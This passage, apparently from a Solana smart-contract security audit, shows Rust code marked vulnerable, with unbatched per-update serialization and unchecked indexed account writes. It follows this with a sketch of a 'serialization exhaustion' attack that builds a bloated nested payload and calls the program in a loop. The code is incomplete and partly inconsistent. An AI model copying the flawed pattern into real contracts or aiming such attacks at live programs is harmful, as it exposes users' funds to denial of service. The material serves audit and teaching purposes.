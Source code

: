 ```rust
            buffer.extend_from_slice(&game_data.len().to_le_bytes());
            buffer.extend_from_slice(&game_data);
        }

        Ok(buffer)
    }
}

// VULNERABLE: Inefficient nested serialization
pub fn process_batch_updates(accounts: &[AccountInfo], updates: Vec<Update>) -> ProgramResult {
    for update in updates {
        // Inefficient: Individual serialization per update
        let data = update.try_to_vec()
            .map_err(|_| ProgramError::InvalidAccountData)?;

        // Poor pattern: Immediate write without batching
        accounts[update.index].data.borrow_mut()[..data.len()].copy_from_slice(&data);
    }

    Ok(())
}
```

### Attack Vectors

#### 1. Serialization Exhaustion Attack
```rust
// Exploit: Force expensive serialization operations
pub struct SerializationExhaustionAttack {
    target_program: Pubkey,
    malicious_data: Vec<LargeObject>,
}

impl SerializationExhaustionAttack {
    pub fn execute_attack(&self) -> Result<()> {
        // Create data designed to maximize serialization overhead
        let expensive_data = self.create_expensive_payload();

        // Force multiple serialization cycles
        for _ in 0..100 {
            let instruction = self.create_update_instruction(expensive_data.clone());
            // Each call triggers inefficient serialization
            process_instruction(&self.target_program, &[], &instruction)?;
        }

        Ok(())
    }

    fn create_expensive_payload(&self) -> LargeGameState {
        LargeGameState {
            // Design payload to maximize serialization cost
            nested_data: vec![ComplexStruct::default(); 1000],
            large_strings: vec!["x".repeat(1000); 100],
            deeply_nested: create_deep_nesting(10),
        }
    }
}
```
